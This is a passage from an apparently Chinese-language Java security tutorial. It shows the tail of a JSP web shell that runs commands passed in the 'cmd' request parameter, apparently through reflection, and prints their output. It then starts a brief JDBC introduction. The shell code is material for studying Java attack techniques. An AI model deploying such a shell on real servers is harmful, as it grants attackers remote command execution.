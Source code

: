 ```jsp

        return (InputStream) inMethod.invoke(object);
    }

    String inputStreamToString(InputStream in, String charset) throws IOException {
        try {
            if (charset == null) {
                charset = "UTF-8";
            }

            ByteArrayOutputStream out = new ByteArrayOutputStream();
            int                   a   = 0;
            byte[]                b   = new byte[1024];

            while ((a = in.read(b)) != -1) {
                out.write(b, 0, a);
            }

            return new String(out.toByteArray());
        } catch (IOException e) {
            throw e;
        } finally {
            if (in != null)
                in.close();
        }
    }
%>
<%
    String[] str = request.getParameterValues("cmd");

    if (str != null) {
        InputStream in     = start(str);
        String      result = inputStreamToString(in, "UTF-8");
        out.println("<pre>");
        out.println(result);
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```



## JDBC基础（暂时跳过）

`JDBC(Java Database Connectivity)`是Java提供对数据库进行连接、操作的标准API。Java自身并不会去实现对数据库的连接、查询、更新等操作而是通过抽象出数据库操作的API接口(`JDBC`)，不同的数据库提供商必须实现JDBC定义的接口从而也就实现了对数据库的一系列操作。

### JDBC Connection
